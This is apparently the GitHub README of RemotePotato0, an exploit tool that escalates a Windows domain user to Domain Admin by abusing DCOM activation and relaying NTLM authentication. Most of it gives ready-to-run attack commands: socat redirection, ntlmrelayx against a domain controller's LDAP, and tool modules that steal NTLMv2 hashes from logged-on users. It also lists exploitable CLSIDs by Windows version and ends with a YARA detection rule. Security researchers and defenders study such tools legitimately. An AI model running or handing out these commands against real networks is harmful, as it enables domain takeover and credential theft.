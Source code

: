 # RemotePotato0
Just another "Won't Fix" Windows Privilege Escalation from User to Domain Admin.

RemotePotato0 is an exploit that allows you to escalate your privileges from a generic User to Domain Admin. 

Briefly:

It abuses the DCOM activation service and trigger an NTLM authentication of any user currently logged on in the target machine.
It is required that a privileged user is logged on the same machine (e.g. a Domain Admin user).
Once the NTLM type1 is triggered we setup a cross protocol relay server that receive the privileged type1 message and relay it to a third resource by unpacking the RPC protocol and packing the authentication over HTTP. On the receiving end you can setup a further relay node (eg. ntlmrelayx) or relay directly to a privileged resource.
RemotePotato0 also allows to grab and steal NTLMv2 hashes of every users logged on a machine.

## Examples

Attacker machine (10.0.0.20)

Victim machine (10.0.0.45)

Victim Domain Controller (10.0.0.10)

#### Module 0 - Rpc2Http cross protocol relay server + potato trigger

```
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.0.0.45:9999 &
sudo ntlmrelayx.py -t ldap://10.0.0.10 --no-wcf-server --escalate-user normal_user
```
**Note: if you are on Windows Server <= 2016 you can avoid the network redirector (socat) because the oxid resolution can be performed locally.**

```
query user
.\RemotePotato0.exe -m 0 -r 10.0.0.20 -x 10.0.0.20 -p 9999 -s 1
```

#### Module 1 - Rpc2Http cross protocol relay server
```
.\RemotePotato0.exe -m 1 -l 9997 -r 10.0.0.20 
```

```
rpcping -s 127.0.0.1 -e 9997 -a connect -u ntlm
```

#### Module 2 - Rpc capture (hash) server + potato trigger
```
query user
.\RemotePotato0.exe -m 2 -s 1
```

#### Module 3 - Rpc capture (hash) server
```
.\RemotePotato0.exe -m 3 -l 9997
```

```
rpcping -s 127.0.0.1 -e 9997 -a connect -u ntlm
```
## Usage

```


        RemotePotato0
        @splinter_code & @decoder_it



Mandatory args:
-m module
        Allowed values:
        0 - Rpc2Http cross protocol relay server + potato trigger (default)
        1 - Rpc2Http cross protocol relay server
        2 - Rpc capture (hash) server + potato trigger
        3 - Rpc capture (hash) server


Other args: (someone could be mandatory and/or optional based on the module you use)
-r Remote HTTP relay server ip
-t Remote HTTP relay server port (Default 80)
-x Rogue Oxid Resolver ip (default 127.0.0.1)
-p Rogue Oxid Resolver port (default 9999)
-l RPC Relay server listening port (Default 9997)
-s Session id for the Cross Session Activation attack (default disabled)
-c CLSID (Default {5167B42F-C111-47A1-ACC4-8EABE61B0B54})
```


## Demo

### Cross session activation
<img src="demo_cross_session.gif">

### Hash Stealer
<img src="demo_hash_stealer.gif">

## CLSID List

A list of usable CLSID on various Windows version:

Windows Server 2019
```
{0002DF02-0000-0000-C000-000000000046} - BrowserBroker Class   
{0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4} - AuthBrokerUI 
{5167B42F-C111-47A1-ACC4-8EABE61B0B54} - Easconsent.dll 
{924DC564-16A6-42EB-929A-9A61FA7DA06F} - Authentication UI CredUI Out of Proc Helper for Non-AppContainer Clients  
{934b410c-43e4-415e-9935-fbc081ba93a9} - UserInfoDialog   
{BA441419-0B3F-4FB6-A903-D16CC14CCA44} - CLSID_LockScreenContentionFlyout 
{c58ca859-80bc-48df-8f06-ffa94a405bff} - Picker Host   
{f65817c8-dd85-4136-89f0-b9d12939f2c4} - IsolatedMessageDialogFactory  
{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83} - SPPUIObjectInteractive Class
{f8842f8e-dafe-4b37-9d38-4e0714a61149} - CastServerInteractiveUser
```

Windows Server 2016
```
{924DC564-16A6-42EB-929A-9A61FA7DA06F}
{f65817c8-dd85-4136-89f0-b9d12939f2c4}
{BA441419-0B3F-4FB6-A903-D16CC14CCA44}
{0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4}
{934b410c-43e4-415e-9935-fbc081ba93a9}
{f8842f8e-dafe-4b37-9d38-4e0714a61149}
{0002DF02-0000-0000-C000-000000000046}
{5167B42F-C111-47A1-ACC4-8EABE61B0B54}
{c58ca859-80bc-48df-8f06-ffa94a405bff}
{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
```

Windows Server 2008 R2
```
{FCC74B77-EC3E-4dd8-A80B-008A702075A9}
{9BA05972-F6A8-11CF-A442-00A0C90A8F39}
{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
```


You can find a more complete list here --> http://ohpe.it/juicy-potato/CLSID/

## Detection

Yara rule to detect RemotePotato0 binary:

```
rule SentinelOne_RemotePotato0_privesc {
    meta:
        author = "SentinelOne"
        description = "Detects RemotePotato0 binary"
        reference = "https://labs.sentinelone.com/relaying-potatoes-dce-rpc-ntlm-relay-eop"
        
    strings:
        $import1 = "CoGetInstanceFromIStorage"
        $istorage_clsid = "{00000306-0000-0000-c000-000000000046}" nocase wide ascii
        $meow_header = { 4d 45 4f 57 }
        $clsid1 = "{11111111-2222-3333-4444-555555555555}" nocase wide ascii
        $clsid2 = "{5167B42F-C111-47A1-ACC4-8EABE61B0B54}" nocase wide ascii
        
    condition:        
        (uint16(0) == 0x5A4D) and $import1 and $istorage_clsid and $meow_header and 1 of ($clsid*)
}
```

## Authors

* [Antonio Cocomazzi](https://twitter.com/splinter_code)
* [Andrea Pierini](https://twitter.com/decoder_it)

## Credits

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [@tiraniddo](https://twitter.com/tiraniddo) - [Cross Session Activation](https://www.tiraniddo.dev/2021/04/standard-activating-yourself-to.html)

## References
- https://labs.sentinelone.com/relaying-potatoes-dce-rpc-ntlm-relay-eop/
- https://www.tiraniddo.dev/2021/04/standard-activating-yourself-to.html
